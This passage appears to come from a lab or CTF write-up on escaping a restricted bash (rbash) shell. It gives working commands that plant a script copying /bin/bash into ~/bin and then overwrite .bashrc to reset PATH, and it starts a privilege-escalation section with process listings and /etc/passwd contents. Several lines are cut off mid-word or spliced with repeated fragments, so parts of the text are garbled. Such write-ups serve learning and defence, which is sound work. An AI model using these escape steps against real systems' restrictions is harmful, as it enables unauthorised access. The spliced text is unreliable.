 I think the best possibility is to just copy `/bin/bash` itself, to escape `/bin/rbash`.
This is the command i use to do that kind of exploit:

```sh
echo -n -e '#!/bin/bash\n/bin/cp /bin/bash ~/bin/' | tee bin/dig
```

After running `dig` and taking a look inside our `~/bin/` folder, we can see `bash` show up:
```
99b76d0d-b3db-4817-8d1d-f0a703cf17ea:~$ ls bin
bash  dig   ls    ping  tee
```

After that, we can just use `bash` to escape the rbash shell, and overwrite the .bashrc file to set our `PATH` variable like we want:
```sh
/bin/chmod u+w ~/.bashrc && echo -e 'export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin' | tee ~/.bashrc
```

After exitting the current>

## Gaining privileges
### General Analysis
#### Running processes (`ps -a`):
```
PID   USER     TIME  COMMAND
    1 root      0:00 s6-svscan -t0 /var/run/s6/services
   31 root      0:00 s6-supervise s6-fdholderd
  315 root      0:00 s6-supervise resolver
  316 root      0:00 s6-supervise siab
  319 root      0:00 sh ./run
  320 shellina  0:00 /bin/shellinaboxd --debug --no-beep -u shellinabox -g shellinabox -c /var/lib/shellinabox -p 4200 --user-css Normal:+/etc/shellinabox/options-enabled/00_White-On-Black.
  328 go-dnsma  0:00 go-dnsmasq --default-resolver --ndots 1 --fwd-ndots 0 --hostsfile=/etc/hosts
  331 shellina  0:00 /bin/shellinaboxd --debug --no-beep -u shellinabox -g shellinabox -c /var/lib/shellinabox -p 4200 --user-css Normal:+/etc/shellinabox/options-enabled/00_White-On-Black.
  346 root      0:00 login -p -h 10.53.0.1, 81.10.189.200
  347 restrict  0:00 -rbash>linaboxd --debug --no-beep -u shellinabox -g shellinabox -c /var/lib/shellinabox -p 4200 --user-css Normal:+/etc/shellinabox/options-enabled/00_White-On-Black.
  346 root      0:00 login -p -h 10.53.0.1, 81.10.189.200
  347 restrict  0:00 -rbash
  359 restrict  0:00 bash
  362 restrict  0:00 ps -a
```

#### `/etc/passwd` file:
```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
```